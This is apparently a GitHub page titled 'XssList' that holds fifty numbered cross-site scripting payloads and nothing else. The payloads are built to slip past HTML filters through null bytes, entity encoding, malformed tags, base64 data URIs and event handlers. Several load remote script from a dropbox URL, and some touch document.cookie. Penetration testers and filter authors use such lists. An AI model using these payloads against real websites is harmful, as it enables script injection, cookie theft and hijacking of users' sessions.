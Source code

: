 # XssList
1) &lt;iframe %00 src="&amp;Tab;javascript:prompt(1)&amp;Tab;"%00>   2) &lt;svg>&lt;style>{font-family&amp;colon;'&lt;iframe/onload=confirm(1)>'   3) &lt;input/onmouseover="javaSCRIPT&amp;colon;confirm&amp;lpar;1&amp;rpar;"   4) &lt;sVg>&lt;scRipt %00>alert&amp;lpar;1&amp;rpar; {Opera}   5) &lt;img/src=`%00` onerror=this.onerror=confirm(1)   6) &lt;form>&lt;isindex formaction="javascript&amp;colon;confirm(1)"   7) &lt;img src=`%00`&amp;NewLine; onerror=alert(1)&amp;NewLine;   8) &lt;script/&amp;Tab; src='https://dl.dropbox.com/u/13018058/js.js' /&amp;Tab;>&lt;/script>   9) &lt;ScRipT 5-0*3+9/3=>prompt(1)&lt;/ScRipT giveanswerhere=?   10) &lt;iframe/src="data:text/html;&amp;Tab;base64&amp;Tab;,PGJvZHkgb25sb2FkPWFsZXJ0KDEpPg==">   11) &lt;script /*%00*/>/*%00*/alert(1)/*%00*/&lt;/script /*%00*/   12) &amp;#34;&amp;#62;&lt;h1/onmouseover='\u0061lert(1)'>%00   13) &lt;iframe/src="data:text/html,&lt;svg &amp;#111;&amp;#110;load=alert(1)>">   14) &lt;meta content="&amp;NewLine; 1 &amp;NewLine;; JAVASCRIPT&amp;colon; alert(1)" http-equiv="refresh"/>   15) &lt;svg>&lt;script xlink:href=data&amp;colon;,window.open('https://www.google.com/')>&lt;/script   16) &lt;svg>&lt;script x:href='https://dl.dropbox.com/u/13018058/js.js' {Opera}   17) &lt;meta http-equiv="refresh" content="0;url=javascript:confirm(1)">   18) &lt;iframe src=javascript&amp;colon;alert&amp;lpar;document&amp;period;location&amp;rpar;>   19) &lt;form>&lt;a href="javascript:\u0061lert&amp;#x28;1&amp;#x29;">X   20) &lt;/script>&lt;img/*%00/src="worksinchrome&amp;colon;prompt&amp;#x28;1&amp;#x29;"/%00*/onerror='eval(src)'>   21) &lt;img/&amp;#09;&amp;#10;&amp;#11; src=`~` onerror=prompt(1)>   22) &lt;form>&lt;iframe &amp;#09;&amp;#10;&amp;#11; src="javascript&amp;#58;alert(1)"&amp;#11;&amp;#10;&amp;#09;;>   23) &lt;a href="data:application/x-x509-user-cert;&amp;NewLine;base64&amp;NewLine;,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="&amp;#09;&amp;#10;&amp;#11;>X&lt;/a   24) http://www.google&lt;script .com>alert(document.location)&lt;/script   25) &lt;a&amp;#32;href&amp;#61;&amp;#91;&amp;#00;&amp;#93;"&amp;#00; onmouseover=prompt&amp;#40;1&amp;#41;&amp;#47;&amp;#47;">XYZ&lt;/a   26) &lt;img/src=@&amp;#32;&amp;#13; onerror = prompt('&amp;#49;')   27) &lt;style/onload=prompt&amp;#40;'&amp;#88;&amp;#83;&amp;#83;'&amp;#41;   28) &lt;script ^__^>alert(String.fromCharCode(49))&lt;/script ^__^   29) &lt;/style &amp;#32;>&lt;script &amp;#32; :-(>/**/alert(document.location)/**/&lt;/script &amp;#32; :-(   30) &amp;#00;&lt;/form>&lt;input type&amp;#61;"date" onfocus="alert(1)">   31) &lt;form>&lt;textarea &amp;#13; onkeyup='\u0061\u006C\u0065\u0072\u0074&amp;#x28;1&amp;#x29;'>   32) &lt;script /***/>/***/confirm('\uFF41\uFF4C\uFF45\uFF52\uFF54\u1455\uFF11\u1450')/***/&lt;/script /***/   33) &lt;iframe srcdoc='&amp;lt;body onload=prompt&amp;lpar;1&amp;rpar;&amp;gt;'>   34) &lt;a href="javascript:void(0)" onmouseover=&amp;NewLine;javascript:alert(1)&amp;NewLine;>X&lt;/a>   35) &lt;script ~~~>alert(0%0)&lt;/script ~~~>   36) &lt;style/onload=&amp;lt;!--&amp;#09;&amp;gt;&amp;#10;alert&amp;#10;&amp;lpar;1&amp;rpar;>   37) &lt;///style///>&lt;span %2F onmousemove='alert&amp;lpar;1&amp;rpar;'>SPAN   38) &lt;img/src='http://i.imgur.com/P8mL8.jpg' onmouseover=&amp;Tab;prompt(1)   39) &amp;#34;&amp;#62;&lt;svg>&lt;style>{-o-link-source&amp;colon;'&lt;body/onload=confirm(1)>'   40) &amp;#13;&lt;blink/&amp;#13; onmouseover=pr&amp;#x6F;mp&amp;#116;(1)>OnMouseOver {Firefox &amp; Opera}   41) &lt;marquee onstart='javascript:alert&amp;#x28;1&amp;#x29;'>^__^   42) &lt;div/style="width:expression(confirm(1))">X&lt;/div> {IE7}   43) &lt;iframe/%00/ src=javaSCRIPT&amp;colon;alert(1)   44) //&lt;form/action=javascript&amp;#x3A;alert&amp;lpar;document&amp;period;cookie&amp;rpar;>&lt;input/type='submit'>//   45) /*iframe/src*/&lt;iframe/src="&lt;iframe/src=@"/onload=prompt(1) /*iframe/src*/>   46) //|\\ &lt;script //|\\ src='https://dl.dropbox.com/u/13018058/js.js'> //|\\ &lt;/script //|\\   47) &lt;/font>/&lt;svg>&lt;style>{src&amp;#x3A;'&lt;style/onload=this.onload=confirm(1)>'&lt;/font>/&lt;/style>   48) &lt;a/href="javascript:&amp;#13; javascript:prompt(1)">&lt;input type="X">   49) &lt;/plaintext\>&lt;/|\>&lt;plaintext/onmouseover=prompt(1)   50) &lt;/svg>''&lt;svg>&lt;script 'AQuickBrownFoxJumpsOverTheLazyDog'>alert&amp;#x28;1&amp;#x29; {Opera}
